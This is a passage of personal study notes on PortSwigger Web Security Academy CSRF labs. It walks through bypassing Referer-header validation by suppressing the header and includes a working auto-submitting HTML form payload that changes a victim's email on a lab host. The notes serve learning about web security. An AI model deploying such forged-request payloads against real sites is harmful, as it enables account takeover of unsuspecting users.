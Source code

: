 5. Go to your account page and confirm that your email address has changed.
6. Change the email address in your exploit so that it doesn't match your own.
7. Deliver the exploit to the victim to solve the lab.

Analysis:
![[Pasted image 20240925152141.png]]

# **10. CSRF where Referer validation depends on header being present**
This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the domain in the Referer HTTP header then the request is rejected.
3. Delete the Referer header entirely and observe that the request is now accepted.
4. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab. Include the following HTML to suppress the Referer header:
    `<meta name="referrer" content="no-referrer">`
    
5. Change the email address in your exploit so that it doesn't match your own.
6. Store the exploit, then click "Deliver to victim" to solve the lab.


In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: no csrf token

Testing Referer header for CSRF attacks:
1. Remove the Referer header

- we generate and deliver the basic CSRF payload and we see that the website responds with "Invalid referer header" (it makes sure that the request is coming from the same domain as the website - if it is coming from anywhere else the request is rejected)
![[Pasted image 20240925152932.png]]
	![[Pasted image 20240925153036.png]]

- we can see that our referer is http://burpsuite/ that is completely different from our domain
![[Pasted image 20240925153207.png]]

- we can spoof the referer header or to remove it and if the request is accepted without it we are ready to go; 

- Payload:
```html
<html>
    <head>
        <meta name="referrer" content="never">        REMOVING THE REFERRER HEADER
    </head>

    <!--NOTE: Since the Web Security Academy intoduced a defense in that does not allow iframes from different origins, the iframe needs to be removed.-->
    <body>
        <h1>Hello world!</h1>
        <form action="https://0ab5007803da07dc80ad356300f6002f.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="test6@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```
